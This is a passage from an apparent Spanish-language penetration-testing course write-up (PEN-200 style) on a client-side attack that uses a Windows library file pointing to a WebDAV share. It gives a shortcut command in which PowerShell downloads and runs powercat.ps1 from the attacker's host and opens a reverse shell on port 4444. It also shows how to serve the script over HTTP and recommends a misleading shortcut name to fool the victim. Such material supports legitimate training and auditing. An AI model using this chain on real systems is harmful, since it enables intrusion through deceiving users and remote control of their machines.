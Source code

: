 la parte más importante evidentemente es la URL, que será una dirección al webDAV de nuestra máquina Kali.

Si guardamos el archivo y cerramos el edito de texto y lo abrimos a través del GUI de Windows podremos observar que se abre una carpeta  de Windows Explorer que contiene nuestra archivo test.txt, se nos ha abierto un contenedor que conecta directamente con nuestra kali completando la primera etapa del ataque.

Si abrimos el fichero de nuevo con un editor comprobamos que se ha añadido una nueva línea al código:

```
[...]
 <url>\\192.168.45.154\DavWWWRoot</url>
        <serialized>MBAAAEAFCAAAAAAAADAAAAAAAYkgCAQDQAAA...</serialized>
      </simpleLocation>
[...]
```

Este nuevo tag puede provocar que el archivo sólo funcione en esta máquina a partir de ahora pero no en otras.

Para evitar problemas al realizar este ataque, podemos restablecer el archivo a su estado original pegando el código en Visual Studio Code. Desafortunadamente, debemos hacer esto cada vez que ejecutamos el archivo de la biblioteca de Windows. Sin embargo, esto no es gran cosa ya que en la mayoría de las auditorías sólo necesitamos que la víctima haga doble clic en el archivo una vez. 

Ahora, completaremos el payload creando el shortcut siguiente. 

```
┌──(kali㉿kali)-[~/webdav]
└─$ ls
automatic_configuration.lnk  test.txt
```

Le damos a "Right Click" > New > Shortcut y como item utilizaremos el siguiente introduciendo el siguiente comando:

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<LOCALIP>:8000/powercat.ps1');
powercat -c <LOCALIP> -p 4444 -e powershell"
```

Le damos a Next y como nombre deberíamos poner algo acorde al propósito del relato que queramos utilizar para engatusar al usuario, en este caso; automatic_configuration.

Y transportamos este *shortcut* sobre nuestra webdav share en nuestra Kali.

Una vez ahí, todo lo que queda es abrir un servidor we de python en el puerto 8000 y colocar en el directorio raiz el ejecutable powercat.ps1 

```
┌──(kali㉿kali)-[~/Documents/PEN200]
└─$ cp $(locate powercat.ps1) .; python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

y seguidamente abrir un listener de netcat en el puerto 4444.
